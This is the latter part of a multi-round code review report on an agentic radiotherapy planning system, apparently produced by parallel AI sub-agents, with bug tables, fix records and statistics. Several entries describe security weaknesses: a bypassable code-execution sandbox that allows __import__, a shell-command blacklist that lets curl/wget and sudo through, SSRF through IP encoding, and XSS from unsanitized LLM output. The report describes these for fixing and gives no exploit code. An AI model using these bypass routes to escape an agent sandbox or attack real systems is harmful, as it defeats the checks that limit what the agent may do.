| 20 | 3812-3884 | 🟡 Medium | `get_available_position` calls `position_transform` 3 times per element in a list comprehension |
| 21 | 3998-4025 | 🟡 Medium | `remove_unproper_seed` uses probabilistic selection; the variable naming suggests a count rather than a threshold |

### plans/fitting_model.py

| # | Lines | Severity | Issue |
|---|------|--------|------|
| 22 | 276-361 | 🔴 **Critical** | `DoseOptimizationLoss.forward` reassigns `radiation` in the loop instead of updating in place, breaking the gradient computation graph — optimization planning cannot backpropagate correctly |
| 23 | 282-321 | 🟡 Medium | The rotation matrix is computed separately for each seed, not batched, so GPU parallelism cannot be exploited |
| 24 | 365 | 🔵 Low | The class name `early_stop` violates PEP 8 (should be `EarlyStop`) |
| 25 | 431-432 | 🟡 Medium | Dynamic halving of patience may cause premature stopping |

### plans/visualizer.py

| # | Lines | Severity | Issue |
|---|------|--------|------|
| 26 | 183-186 | 🔴 **Critical** | VTK image filling uses a three-level Python loop (512×512×300 = 78 million iterations); `numpy_to_vtk` zero-copy conversion should be used |
| 27 | 83-106 | 🟡 Medium | The `start()` method contains hardcoded demo code |
| 28 | 355 | 🔵 Low | Parameter name typo: `target_vulue` should be `target_value` |

### plans/reinforcement.py

| # | Lines | Severity | Issue |
|---|------|--------|------|
| 29 | 243-256 | 🔴 **Critical** | `_reward_core` may be None (import failure) but is called without protection and will crash |
| 30 | 358-386 | 🟡 Medium | `LowLevelEnv.step` returns a 3-tuple instead of the modern gymnasium 5-tuple |
| 31 | 691-711 | 🟡 Medium | The `DVH2Rewards` mask logic uses `!= target_value` instead of `== 0`, affected by floating-point precision |
| 32 | 703-708 | 🔴 **Critical** | `np.count_nonzero` in `DVH2Rewards` may return 0, causing a division-by-zero error |
| 33 | 795-831 | 🟡 Medium | Baseline planning is accessed before `reward_calculator.mask_volume` is initialized |
| 34 | 1030-1035 | 🟡 Medium | The exception handler uses a possibly undefined `best_plan` |

### plans/brachy_plan_v2.py

| # | Lines | Severity | Issue |
|---|------|--------|------|
| 35 | 375-499 | 🔴 High | `replan_single_needle` contains 30+ `print()` debug statements that flood stdout |
| 36 | 442-445 | 🟡 Medium | Overwriting the computed `target_depths` with the CTV segment length may place seeds in background gaps |
| 37 | 448-449 | 🟡 Medium | No return after the depth check; execution continues into `put_seeds`, wasting computation |

### plans/device_manager.py

| # | Lines | Severity | Issue |
|---|------|--------|------|
| 38 | 317 | 🔵 Low | The `_leases` list is appended outside the lock, not thread-safe |

### plans/dose_pre/ (dose prediction)

| # | Lines | Severity | Issue |
|---|------|--------|------|
| 39 | functions.py:79-127 | 🟡 Medium | `line_source_map` returns a SimpleITK Image, but the `utilizations.py` version returns a numpy array; inconsistent |
| 40 | Predict_crop.py:9 | 🔵 Low | `import dose_pre.myDoseNet` uses an absolute path and fails when imported as a package |
| 41 | Predict_crop.py:95-171 | 🔵 Low | Test code contains hardcoded Windows paths |
| 42 | myDoseNet.py:125-201 | 🔵 Low | 7 unused upsampling layers waste GPU memory |

### skills/ Subsystem

| # | Lines | Severity | Issue |
|---|------|--------|------|
| 43 | skill_base.py:94 | 🟡 Medium | The `find_by_trigger` ordering heuristic fails when `usage_count=0` |
| 44 | skill_base.py:192-193 | 🟡 Medium | `from_dict` crashes on extra keys (`TypeError`) |
| 45 | advanced_skills.py:166,191 | 🟡 Medium | The `ref_direc` parameter of LiverFullSkill/LungFullSkill uses the wrong key |

---

## 12. Testing and Benchmark Deep Review

> Discovered by parallel sub-Agents performing deep review of `tests/`, `benchmarks/`, and root-level debug/test files.

### Root-Level Debug Files (should be deleted from the repository)

| File | Severity | Issue |
|------|--------|------|
| `test_quick.py` | 🔴 Critical | Hardcoded patient data path `/home/user/.../CTpatient1.nii`, no assertions |
| `test_store.py` | 🔴 High | Hardcoded localhost:5000, no assertions |
| `test_bugs.py` | 🔴 High | 243 lines, zero assertions, pure manual debug script |
| `test_bugs2.py` | 🔴 High | 297 lines, only 1 assertion |
| `debug_full_flow.py` | 🔴 High | Hardcoded timestamp upload path, only valid on specific dates |
| `debug_mask_orientation.py` | 🔴 High | Same as above |
| `debug_mask_orientation2.py` | 🔴 High | Same as above |
| `debug_live_mask.py` | 🟡 Medium | No assertions, manual debug script |

### tests/ (formal tests)

| # | File | Severity | Issue |
|---|------|--------|------|
| 1 | test_multi_agent_*.py | 🔴 High | All `async def` test functions lack the `@pytest.mark.asyncio` decorator — pytest collects but does not run them; they show as "passed" but never actually execute |
| 2 | test_multi_agent_phase2.py:66 | 🟡 Medium | The "good plan" test uses `v100=0.96` and always passes; no boundary-value tests |
| 3 | test_multi_agent_phase3.py:130-161 | 🟡 Medium | Format test assertions are too permissive |
| 4 | test_brain_system.py:76-87 | 🔴 High | Asserts specific model names (`hy3-preview`, `claude-opus-4.7`) that expire over time |
| 5 | test_brain_system.py:92-121 | 🟡 Medium | Assumes `brain_available=False`, cannot test actual brain integration |
| 6 | all tests | 🔴 High | Zero coverage: HTTP routes, SSE streams, planning pipeline, file uploads, session management, frontend |

### benchmarks/

| # | File | Severity | Issue |
|---|------|--------|------|
| 7 | all v2 JSON | 🔴 Critical | Hardcoded `/home/user/.../CTpatient1.nii` paths, not portable |
| 8 | 07_safety.json, 15_safety.json | 🔴 High | `forbidden_keywords` contains common English words such as "done", "set", "changed", causing false positives |
| 9 | 30_e2e_clinical_validation.json | 🔴 High | `expected_answer: "90"` matches any string containing "90" ("D90", "190", "90%"), meaningless |
| 10 | aligned_benchmark.py:220-306 | 🔴 High | Scoring function is gameable: `tool_called` still awards 0.3 points when not called; completeness is binary |
| 11 | aligned_benchmark.py:12-14 | 🔴 Critical | All paths hardcoded as absolute paths |
| 12 | auto_monitor.py:34,41,60,104,125 | 🔴 High | 5 bare `except:` clauses catching including `SystemExit`, `KeyboardInterrupt` |
| 13 | auto_monitor.py + run_aligned_agents.sh | 🔴 High | Only covers categories 1-8, missing 9-30 |
| 14 | archive/ | 🟡 Medium | 58 log files + 81 dead scripts (1.5MB, 18,824 lines) |

### Inconsistent Test Frameworks

- `test_brain_system.py` uses `unittest.TestCase`
- `test_multi_agent_*.py` uses raw `async def` (incompatible with pytest)
- Root-level files use standalone scripts
- No `.pytest.ini`, `pyproject.toml`, or `setup.cfg`

### Missing Test Dimensions

- Different organ sites (prostate, lung, liver)
- Different image sizes
- Corrupt/invalid DICOM files
- Empty LLM responses
- Exceptions thrown during tool execution
- Insufficient GPU memory
- Concurrent requests to the same session

---

## 13. Recommendations and Fix Priorities

### Immediate Fixes (P0)

1. **C-01**: Delete the virtual environment directory
2. **C-02**: Implement a shell command whitelist
3. **C-03**: Implement a code execution sandbox
4. **C-05**: Introduce DOMPurify to prevent XSS
5. **C-10**: Implement tool permission control

### Short-Term Fixes (P1, 1-2 weeks)

1. **H-01**: Split AgenticSys.py
2. **H-03**: Refactor tool registration
3. **H-06**: Improve exception handling
4. **H-08**: Remove global variables
5. **C-04**: Strengthen path validation

### Medium-Term Fixes (P2, 1-2 months)

1. **H-02**: Split frontend files
2. **H-04**: Fix memory leaks
3. **H-15**: Add type annotations
4. **H-16**: Increase test coverage
5. **A-01**: Refactor into a modular architecture

### Long-Term Improvements (P3, 3-6 months)

1. **A-02**: Implement dependency injection
2. **A-03**: Adopt an event-driven architecture
3. **A-04**: Implement a unified cache layer
4. **S-01**: Implement authentication
5. **S-04**: Implement data encryption

---

## Appendix A: File Statistics

| Directory | Python Files | JS/HTML/CSS Files | Total Lines |
|------|------------|-----------------|--------|
| AgenticSys.py | 1 | 0 | 6,423 |
| agents/ | 8 | 0 | ~2,000 |
| brain/ | 45 | 0 | ~8,000 |
| memory/ | 13 | 0 | ~3,000 |
| tool_factory/ | 100+ | 0 | ~15,000 |
| web/ | 4 | 3 | ~12,000 |
| skills/ | 7 | 0 | ~2,000 |
| plans/ | 12 | 0 | ~4,000 |
| Other | 20+ | 0 | ~3,000 |
| **Total** | **~200** | **~3** | **~55,000+** |

## Appendix B: Dependency Inventory

### Core Dependencies
- numpy >= 1.24.0
- scipy >= 1.10.0
- SimpleITK >= 2.3.0
- torch >= 2.0.0
- monai >= 1.3.0
- flask >= 3.0.0
- openai >= 1.0.0

### Optional Dependencies
- TotalSegmentator >= 2.2.0
- nnunetv2 >= 2.3.0
- nibabel >= 5.1.0
- pydicom >= 2.4.0

---

## Second-Round Deep Review (2026-06-27)

> 5 parallel Agents performed a second review of all modified code and discovered the following new issues.

### New Findings in AgenticSys.py

| # | Lines | Severity | Issue |
|---|------|--------|------|
| R-01 | 3824 | 🔴 Critical | `page_content` undefined — NameError crash when the search returns empty results |
| R-02 | 3279-3289 | 🔴 Critical | `_check_search_reliability` creates a new event loop without closing it — memory leak |
| R-03 | 5839-5844 | 🔴 Critical | Multi-Agent routing event loop not closed — memory leak |
| R-04 | 6040-6152 | 🔴 Critical | Review phase event loop not closed — memory leak |
| R-05 | 1944 | 🔴 Critical | `from AgenticSys import ToolResult` — the class does not exist in that module |
| R-06 | 2991-2995 | 🟠 High | Prescription dose multiplied by 120 — wrong if already in Gy |
| R-07 | 5041-5154 | 🟠 High | `_pending_callback_events` has no thread lock protection |
| R-08 | 4695-4703 | 🟠 High | Streaming forced search: step status remains "pending" on success |
| R-09 | 5124-5125 | 🟡 Medium | `time.sleep(0.08)` blocks the entire thread inside a generator |

### New Findings in web/server.py

| # | Lines | Severity | Issue |
|---|------|--------|------|
| R-10 | 3148-3229 | 🟠 High | Export endpoint lacks path validation — arbitrary directories can be created |
| R-11 | 227-285 | 🟠 High | Session management not thread-safe (Flask threaded=True) |
| R-12 | 45-95 | 🟡 Medium | TaskManager tasks are never cleaned up — unbounded memory growth |
| R-13 | 112-139 | 🟡 Medium | Rate limit store not thread-safe |
| R-14 | 3147-3229 | 🟡 Medium | Export endpoint lacks auth/rate-limit decorators |

### New Findings in web/app/index.html

| # | Lines | Severity | Issue |
|---|------|--------|------|
| R-15 | 6168-6259 | 🔴 Critical | `marked.parse()` without sanitization — XSS via LLM output |
| R-16 | multiple | 🟠 High | innerHTML uses unsanitized server/DICOM data |
| R-17 | 8931-8940 | 🟡 Medium | DICOM metadata values not HTML-escaped |
| R-18 | 7000-7003 | 🟡 Medium | Thinking indicator timer may leak on error |

### New Findings in tool_factory/

| # | File | Severity | Issue |
|---|------|--------|------|
| R-19 | web_search/__init__.py:948 | 🔴 Critical | `_search_wanfang` function defined twice (copy-paste merge error) |
| R-20 | planning_pipeline.py:1056 | 🟠 High | `ref_direc` variable undefined — NameError |
| R-21 | OAR_seg/__init__.py:146 | 🟠 High | oar_mask metadata set to the CT image instead of the OAR mask |
| R-22 | code_executor/__init__.py | 🟠 High | Sandbox can be bypassed (os, __import__, getattr allowed) |
| R-23 | shell_executor/__init__.py | 🟠 High | Command validation can be easily bypassed |
| R-24 | dicom_rt_exporter.py:170-187 | 🟠 High | Contour geometry invalid (point cloud instead of contour line) |
| R-25 | dicom_rt_exporter.py:176 | 🟠 High | Physical coordinates lack direction cosine handling |
| R-26 | web_fetch/__init__.py:132 | 🟡 Medium | SSRF bypass via IP encoding |
| R-27 | env_manager/__init__.py:564 | 🟡 Medium | Uninstall skips package verification |
| R-28 | report_generator/__init__.py:108 | 🟡 Medium | D90 unit mismatch (Gy vs %) |

### New Findings in agents/

| # | File | Severity | Issue |
|---|------|--------|------|
| R-29 | orchestrator.py | 🔴 Critical | Synchronous callback blocks the event loop — parallel review becomes serial |
| R-30 | completeness_checker.py | 🟠 High | Uses the SAFETY_GUARDIAN role instead of COMPLETENESS_CHECKER |
| R-31 | safety_guardian.py | 🟠 High | The "zh" label is identical to English — untranslated |
| R-32 | fact_checker.py | 🟡 Medium | Hardcoded "pass" decision — does not reflect actual findings |
| R-33 | plan_reviewer.py | 🟡 Medium | The `confidence` weight in the scoring formula is unreasonable |

### New Findings in brain/

| # | File | Severity | Issue |
|---|------|--------|------|
| R-34 | providers/gemini_llm.py | 🟠 High | Gemini provider silently discards all tool calls |
| R-35 | providers/gemini_llm.py | 🟠 High | Gemini provider crashes on system messages |
| R-36 | core/tree_search_planner.py | 🟠 High | MCTS UCB1 formula wrong — tree search is essentially random |
| R-37 | providers/*.py | 🟡 Medium | tool call format inconsistent across 9/16 providers |
| R-38 | core/tool_code_writer.py | 🔴 Critical | Can execute arbitrary LLM-generated code — security risk |

### New Findings in memory/

| # | File | Severity | Issue |
|---|------|--------|------|
| R-39 | interaction_memory.py | 🟡 Medium | `clear()` method crashes with NameError |
| R-40 | experience_memory.py | 🟡 Medium | Unbounded growth — experiences are never cleaned up |
| R-41 | self_evolution.py | 🟡 Medium | 6 `.append()` calls with no upper bound |
| R-42 | skill_learner.py:124-139 | 🔵 Low | Argument parsing bug — wrong key format |
| R-43 | language.py:140-145 | 🔵 Low | `session_language_store` is an empty function |

### New Findings in plans/device_manager.py

| # | Lines | Severity | Issue |
|---|------|--------|------|
| R-44 | 317 | 🟡 Medium | `_leases.append()` not protected by a lock |
| R-45 | 326 | 🟡 Medium | `_leases.remove()` not protected by a lock |
| R-46 | 291 | 🟡 Medium | `_preferred[caller]` not protected by a lock |

### Second-Round Issue Verification and Fix Status

| # | Issue | Verification Result | Status |
|---|------|----------|------|
| R-01 | `page_content` undefined | ✅ Real bug — NameError on empty search results | ✅ Fixed |
| R-02/03/04 | Event loop leak | ✅ Real bug — exception paths do not close the loop | ✅ Fixed (try/finally) |
| R-05 | `from AgenticSys import ToolResult` | ✅ Real bug — class does not exist in that module | ✅ Fixed |
| R-06 | Prescription dose *120 | ⚠️ Design decision — normalized→Gy approximate conversion | Skipped (not a bug) |
| R-07 | `_pending_callback_events` thread safety | To be verified | — |
| R-08 | Streaming search step status | To be verified | — |
| R-09 | `time.sleep` in generator | ⚠️ 80ms delay acceptable | Skipped (not critical) |
| R-10 | Export endpoint path validation | To be verified | — |
| R-11 | Session management thread safety | To be verified | — |
| R-12 | TaskManager memory leak | To be verified | — |
| R-13 | Rate limit thread safety | To be verified | — |
| R-14 | Export endpoint missing auth | To be verified | — |
| R-15 | `marked.parse()` XSS | ✅ Real bug — no sanitization | ✅ Fixed |
| R-16 | innerHTML unsanitized | ✅ Fixed via R-15 (renderMarkdown centralized sanitization) | ✅ Fixed |
| R-17 | DICOM metadata not escaped | To be verified | — |
| R-18 | Thinking indicator leak | To be verified | — |
| R-19 | `_search_wanfang` defined twice | ✅ Real bug — copy-paste error | ✅ Fixed |
| R-20 | `ref_direc` undefined | ✅ Real bug — NameError | ✅ Fixed |
| R-21 | OAR mask metadata wrong | To be verified | — |
| R-22 | Code executor sandbox bypass | To be verified | — |
| R-23 | Shell executor validation bypass | To be verified | — |
| R-24 | DICOM contour geometry invalid | To be verified | — |
| R-25 | DICOM direction cosines | To be verified | — |
| R-26 | SSRF bypass | To be verified | — |
| R-27 | env_manager uninstall skips verification | To be verified | — |
| R-28 | D90 unit mismatch | To be verified | — |
| R-29 | Synchronous callback blocks event loop | To be verified | — |
| R-30 | CompletenessChecker wrong role | ✅ Real bug — uses SAFETY_GUARDIAN | ✅ Fixed |
| R-31 | SafetyGuardian Chinese label | To be verified | — |
| R-32 | FactChecker hardcoded pass | To be verified | — |
| R-33 | PlanReviewer scoring formula | To be verified | — |
| R-34 | Gemini discards tool calls | To be verified | — |
| R-35 | Gemini system message crash | To be verified | — |
| R-36 | MCTS UCB1 formula wrong | To be verified | — |
| R-37 | Provider tool call format inconsistent | To be verified | — |
| R-38 | ToolCodeWriter code execution | To be verified | — |
| R-39 | InteractionMemory.clear() crash | To be verified | — |
| R-40 | experience_memory unbounded growth | To be verified | — |
| R-41 | self_evolution append unbounded | To be verified | — |
| R-42 | skill_learner argument parsing | To be verified | — |
| R-43 | language.py empty function | To be verified | — |
| R-44/45/46 | device_manager thread safety | To be verified | — |

### Second-Round Fixed Issues (8)

| # | File | Fix Content |
|---|------|----------|
| R-01 | AgenticSys.py | Initialize `page_content = ""` |
| R-02/03/04 | AgenticSys.py | `try/finally` protection for 3 event loops |
| R-05 | AgenticSys.py | `from AgenticSys import` → `from tool_factory import` |
| R-15/16 | index.html | Added `_sanitizeHtml()` sanitizer |
| R-19 | web_search/__init__.py | Removed dead code inside `_search_iop` |
| R-20 | planning_pipeline.py | `ref_direc` → `"auto"` |
| R-30 | 3 files | Added the `COMPLETENESS_CHECKER` role |

### Second-Round Issue Statistics

| Severity | Count | Key Findings |
|--------|------|----------|
| 🔴 Critical | 8 | event loop leaks (3), NameError (2), XSS (1), code execution (1), duplicate definition (1) |
| 🟠 High | 14 | thread safety (3), logic errors (4), security bypass (3), functional bugs (4) |
| 🟡 Medium | 14 | memory leaks (5), security weaknesses (3), logic (6) |
| 🔵 Low | 2 | parsing bug, dead code |
| **Total** | **38** | |

---

---

## Third-Round Full-Dimension Deep Review (2026-06-27)

> 8 parallel Agents performed a third round of deep review across all subsystems: AgenticSys core, Web server, planning algorithms, toolchain, brain/memory systems, frontend, Prompt/Agent, and completeness review.

### Review Statistics

| Dimension | Agent Coverage | New Findings | Verified | Corrections |
|------|-----------|--------|--------|------|
| AgenticSys.py | 6849 lines section by section | 9 | 2 | 0 |
| web/server.py | 150 symbols | 6 | 5 | 0 |
| plans/ | 12 files ~4000 lines | 12 | 3 | 1 (constraint_bounds not a bug) |
| tool_factory/ | 100+ files | 8 | 3 | 0 |
| brain/ + memory/ | 30+ files | 7 | 3 | 0 |
| frontend index.html | ~20000 lines | 5 | 2 | 0 |
| prompts/ + agents/ | 15+ files | 4 | 3 | 1 (R-31 not a bug) |
| completeness review | 8 dimensions | 8 | 0 | 0 |
| **Total** | **281 files** | **59** | **21** | **2** |

---

### Third-Round Key Findings — 🔴 Critical

| # | File | Lines | Issue | Type |
|---|------|------|------|------|
| T3-01 | brain/providers/gemini_llm.py | 107-114 | **Gemini always discards tool calls** — `tool_calls=[]` is hardcoded; function calls returned by the API are not parsed | ✅ Verified R-34 |
| T3-02 | brain/core/tree_search_planner.py | 47-51 | **MCTS UCB1 formula broken** — `parent_visits` hardcoded to 1; the `_get_parent_visits()` method exists but is never called, degrading tree search to near-random selection | ✅ Verified R-36 |
| T3-03 | web/server.py | 2866-2868 | **Dose contour unit mismatch** — the dose array is in normalized units (0-94), but contour lookup uses absolute Gy values (e.g., 120, 180), so contours can never be found | 🆕 New functional bug |
| T3-04 | AgenticSys.py | 5058-5171 | **_pending_callback_events not thread-safe** — the list is operated on without a lock in a multithreaded environment; clear() and append() race | ✅ Verified R-07 |
| T3-05 | plans/reinforcement.py | 243, 250 | **_reward_core None crash** — when the JIT extension is unavailable, `_reward_core=None`, yet `_reward_core._dvh_oar_jit()` is called unconditionally | ✅ Verified |
| T3-06 | web/app/index.html | multiple | **7 innerHTML usages unsanitized** — lines 5601, 8960, 11983, 17645, 18472, 19770, 20347 bypass `_sanitizeHtml()` | 🆕 XSS residual |

### Third-Round Key Findings — 🟠 High

| # | File | Lines | Issue | Type |
|---|------|------|------|------|
| T3-07 | AgenticSys.py | 135-660 | **AgentMemory memory leak** — the planning_results dict and tool_results list have no upper bound; large numpy arrays have no cleanup hook | 🆕 |
| T3-08 | AgenticSys.py | 5367-5382 | **Batch storage race** — in the streaming version, a generator yield causing the consumer to disconnect means results of already-executed tools are not persisted | 🆕 |
| T3-09 | AgenticSys.py | 4373-4399 | **Response cleanup data loss** — `_clean_response_text` over-cleans with 30+ regexes; repeated application causes cumulative loss | 🆕 |
| T3-10 | web/server.py | 234-285 | **Session management not thread-safe** — the `_sessions` dict is accessed without a lock under Flask threaded=True | ✅ Verified R-11 |
| T3-11 | web/server.py | 3272-3293 | **SSE stream resource leak** — no timeout, no client disconnect detection, no cleanup guarantee | 🆕 |
| T3-12 | plans/geometry.py | 1016 | **Empty mask crash** — `find_island_center_adaptive_sigma` does not check for an empty array; `np.mean` returns NaN | 🆕 |
| T3-13 | plans/fitting_model.py | 291-307 | **DoseOptimizationLoss gradient discontinuity** — a hard branch when the direction aligns with the x-axis creates zero gradients, making optimization unstable | 🆕 |
| T3-14 | tool_factory/seed_plan/planning_pipeline.py | 623, 988 | **Hardcoded [0,1,0] fallback** — the automatic recovery path uses the anterior direction, bypassing organ-aware repair; pancreatic/prostate cases will fail | 🆕 |
| T3-15 | tool_factory/code_executor/__init__.py | 101 | **Sandbox fully bypassable** — `__import__` is in safe_builtins and ALLOWED_MODULES does not restrict the modules `__import__` can access | 🆕 |
| T3-16 | brain/core/tool_code_writer.py | 193-199 | **Dynamic code execution** — despite security validation, importlib is used to execute arbitrary Python code | ✅ Verified R-38 |
| T3-17 | memory/experience_memory.py | 107-127 | **Experience memory unbounded growth** — record() appends without limit; _save() rewrites the entire JSON file each time | ✅ Verified R-40 |
| T3-18 | agents/fact_checker.py | 207 | **FactChecker `decision` hardcoded pass** — main Agent independent verification: `decision` has no consumer on the main path (`format_as_source_summary` only reads concerns; the quality gate is APPEND-ONLY and does not block). Not a bug; it is the intended design of an advisory agent. Cosmetic improvement made. | ⚠️ Downgraded to cosmetic |
| T3-19 | agents/orchestrator.py | 190-194 | **Synchronous callback blocks event loop** — the `run_in_executor` pattern is correct but llm_callback may not be thread-safe | ✅ Verified R-29 |
| T3-20 | config/prompts/medical_safety.md | 10-33 | **OAR dose limits hardcoded** — organ tolerance values are embedded in the prompt rather than fetched from clinical_kb at runtime, and may be outdated | 🆕 |
| T3-21 | completeness review | global | **No Dockerfile / deployment solution** — no containerization, no gunicorn, no SSL termination, no deployment documentation | 🆕 |
| T3-22 | completeness review | global | **_global_agent bypasses session isolation** — state may be shared under concurrent multi-user access | 🆕 |

### Third-Round Key Findings — 🟡 Medium

| # | File | Lines | Issue | Type |
|---|------|------|------|------|
| T3-23 | web/server.py | 45-93 | **TaskManager memory leak** — tasks are never cleaned up; no TTL, no eviction policy | ✅ Verified R-12 |
| T3-24 | web/server.py | 116-139 | **Rate limiting not thread-safe** — `_rate_limit_store` has no synchronization and can be bypassed under concurrency | ✅ Verified R-13 |
| T3-25 | web/server.py | 3153, 3194 | **Export endpoint auth inconsistent** — DICOM-RT and STL exports lack @require_api_key | ✅ Verified R-14 |
| T3-26 | AgenticSys.py | 4712 | **Search step status misleading** — search failure still sets status="done" | ✅ Verified R-08 |
| T3-27 | plans/core.py | 92-101 | **init_plan lacks minimum angle protection** — runs all 50 iterations even as extract_angle shrinks without bound | 🆕 |
| T3-28 | plans/utilizations.py | 751 | **Magic number 1e5** — should use np.inf | 🆕 |
| T3-29 | plans/reinforcement.py | 711 | **Potential division by zero in DVH2Rewards** — target_v=0 when CTV is empty | 🆕 |
| T3-30 | plans/reinforcement.py | 259-260 | **Exception swallowing** — SeedPlacementReward.forward silently catches all exceptions and returns zero reward | 🆕 |
| T3-31 | tool_factory/shell_executor/__init__.py | 22-26 | **Command blacklist incomplete** — space bypass, sudo not blocked, curl/wget allowed | 🆕 |
| T3-32 | tool_factory/report_generator/__init__.py | 108 | **D90 display unit wrong** — displayed as a percentage but should be Gy | ✅ Verified R-28 |
| T3-33 | brain/providers/*.py | multiple | **tool call format inconsistent across 9/16 providers** — Qwen/DeepSeek lack the id field, Gemini returns an empty list | ✅ Verified R-37 |
| T3-34 | memory/interaction_memory.py | 176 | **clear() NameError** — missing logger import | ✅ Verified R-39 |
| T3-35 | memory/self_evolution.py | 69-73 | **Evolution log unbounded growth** | ✅ Verified R-41 |
| T3-36 | agents/plan_reviewer.py | 226 | **Scoring formula flawed** — scores are low for small samples and do not consider severity weights | ✅ Verified R-33 |
| T3-37 | agents/safety_guardian.py | 146 | **min_coverage hardcoded 0.80** — not read from plan_config | 🆕 |
| T3-38 | completeness review | global | **GPU memory management missing** — only 1 file calls empty_cache(); model weights are not cleaned up | 🆕 |
| T3-39 | completeness review | global | **No pipeline rollback** — an LLM failure midway leaves partial state | 🆕 |
| T3-40 | frontend | multiple | **40+ global variables** — no IIFE or module encapsulation; escHtml defined repeatedly | 🆕 |

### Third-Round Key Findings — 🔵 Low

| # | File | Lines | Issue | Type |
|---|------|------|------|------|
| T3-41 | plans/fitting_model.py | 430 | **Comment/code mismatch** — comment says divide by 10, code divides by 2 | 🆕 |
| T3-42 | plans/device_manager.py | 317 | **_leases append not locked** | 🆕 |
| T3-43 | plans/device_manager.py | 384 | **OOM retry threshold hardcoded 1500MB** | 🆕 |
| T3-44 | tool_factory/web_search/__init__.py | 1589-1615 | **_search_weather dead code** — the method delegates to a standalone function; old code not cleaned up | 🆕 |
| T3-45 | tool_factory/seed_plan/planning_pipeline.py | 1540-1545 | **step_callback exception swallowing** — except Exception does not log | 🆕 |
| T3-46 | brain/providers/*.py | multiple | **10+ providers lack streaming support and retry logic** | 🆕 |
| T3-47 | memory/layered_memory.py | 151-176 | **Non-atomic write** — writes JSON directly with no temp+rename pattern | 🆕 |
| T3-48 | memory/smart_context.py | 169-171 | **Inaccurate token estimation** — `len(text)//4` is inaccurate for Chinese/code | 🆕 |
| T3-49 | frontend | 8707+ | **Three.js missing renderer.dispose()** and controls.dispose() | 🆕 |
| T3-50 | completeness review | global | **DOSE_SCALE 120.0 hardcoded in 3+ places** — violates DRY | 🆕 |
| T3-51 | completeness review | global | **Patient names may be logged** — DICOM headers contain names | 🆕 |
| T3-52 | completeness review | global | **Dependencies have no version upper bound** — requirements.txt uses >= throughout, key dependencies commented out | 🆕 |

---

### Corrections to Previous-Round Findings

| # | Original Report | Correction |
|---|--------|------|
| plans/utilizations.py:1463 | Report claimed `constraint_bounds` uses `&` (AND) and the logic is always False | ❌ **It actually uses `|` (OR); the logic is correct.** The previous round misjudged it |
| agents/safety_guardian.py | Report claimed R-31's "zh" label is identical to English and untranslated | ❌ **SafetyGuardian has no i18n support at all; it is a missing feature rather than a translation bug** |

---

### Third-Round Issue Verification Matrix

| # | Issue | Verification Result | Status |
|---|------|----------|------|
| R-07 | _pending_callback_events thread safety | ✅ Confirmed no lock | 🔴 To be fixed |
| R-08 | Streaming search step status | ✅ Confirmed failure also shows done | 🟡 To be fixed |
| R-10 | Export path validation TOCTOU | ✅ Confirmed makedirs before validation | 🟡 To be fixed |
| R-11 | Session management thread safety | ✅ Confirmed lockless dict operations | 🟠 To be fixed |
| R-12 | TaskManager memory leak | ✅ Confirmed no eviction policy | 🟡 To be fixed |
| R-13 | Rate limit thread safety | ✅ Confirmed no synchronization | 🟡 To be fixed |
| R-14 | Export auth inconsistent | ✅ Confirmed 2/4 endpoints lack auth | 🟡 To be fixed |
| R-28 | D90 unit mismatch | ✅ Confirmed displayed as % but should be Gy | 🟡 To be fixed |
| R-29 | Synchronous callback blocking | ✅ Confirmed run_in_executor pattern | 🟠 To be fixed |
| R-32 | FactChecker hardcoded pass | ✅ Confirmed decision="pass" hardcoded | 🟠 To be fixed |
| R-33 | PlanReviewer scoring formula | ✅ Confirmed formula does not consider severity | 🟡 To be fixed |
| R-34 | Gemini discards tool calls | ✅ Confirmed tool_calls=[] hardcoded | 🔴 To be fixed |
| R-36 | MCTS UCB1 broken | ✅ Confirmed parent_visits=1 hardcoded | 🔴 To be fixed |
| R-37 | Provider format inconsistent | ✅ Confirmed 9/16 inconsistent | 🟡 To be fixed |
| R-38 | ToolCodeWriter code execution | ✅ Confirmed importlib execution | 🟠 Security risk |
| R-39 | InteractionMemory.clear() | ✅ Confirmed missing logger import | 🟡 To be fixed |
| R-40 | ExperienceMemory unbounded growth | ✅ Confirmed no upper bound | 🟠 To be fixed |
| R-41 | SelfEvolution log unbounded | ✅ Confirmed no cleanup | 🟡 To be fixed |

**21 items verified**: 14 confirmed as real bugs, 2 corrections to previous-round misjudgments, 5 design trade-offs/low risk.

---

### Third-Round Issue Statistics

| Severity | Count | Key Findings |
|--------|------|----------|
| 🔴 Critical | 6 | Gemini discards tool calls, MCTS UCB1 broken, dose contour units, thread race, RL crash, XSS residual |
| 🟠 High | 16 | memory leaks (3), thread safety (2), sandbox bypass (2), gradient discontinuity (1), FactChecker ineffective (1), OAR hardcoding (1), deployment missing (1), session isolation (1), SSE leak (1), empty mask (1), planning fallback (1) |
| 🟡 Medium | 18 | memory leaks (2), thread safety (2), URL/units (2), Provider format (1), exception swallowing (3), hardcoding (3), GPU management (1), no rollback (1), global variables (1) |
| 🔵 Low | 12 | comment mismatch (1), missing locks (2), dead code (1), exception swallowing (1), Provider missing (1), non-atomic write (1), token estimation (1), Three.js (1), DRY violation (1), PII logging (1), dependency versions (1) |
| **Total** | **52** | |

---

### Three-Round Cumulative Statistics

| Round | Critical | High | Medium | Low | Total |
|------|----------|------|--------|-----|------|
| Round 1 | 12 | 18 | 24 | 15 | 69 |
| Round 2 | 8 | 14 | 14 | 2 | 38 |
| Round 3 | 6 | 16 | 18 | 12 | 52 |
| **Cumulative** | **26** | **48** | **56** | **29** | **159** |
| Fixed | 12+8 | 4 | 2 | 0 | **26** |
| To be fixed | 14 | 44 | 54 | 29 | **133** |

---

### Third-Round Fix Record (fixed the same day, 2026-06-27)

> Verified and fixed 8 issues one by one. Each fix was verified for authenticity before and unit-tested after.

| # | Issue | File | Fix Content | Verification |
|---|------|------|----------|------|
| T3-01 | Gemini discards tool calls | brain/providers/gemini_llm.py | Extract `function_call` from `response.candidates[0].content.parts` and produce the standard `{id, name, arguments}` format | ✅ mock tests pass |
| T3-02 | MCTS UCB1 parent_visits=1 | brain/core/tree_search_planner.py | Added the `ucb_score_with_parent(parent_visits)` method; `_select()` uses the actual parent visit count | ✅ exploration bonus 5.7x more precise |
| T3-03 | Dose contour unit mismatch | web/server.py | Contour lookup uses normalized units (consistent with `dose_distribution_gy`); Gy values are only used for label display | ✅ syntax validation passes |
| T3-05 | _reward_core None crash | plans/reinforcement.py | Added a pure-numpy `_dvh_oar_jit_fallback()`; call sites automatically detect `_reward_core is None` and use the fallback | ✅ 4 unit tests pass |
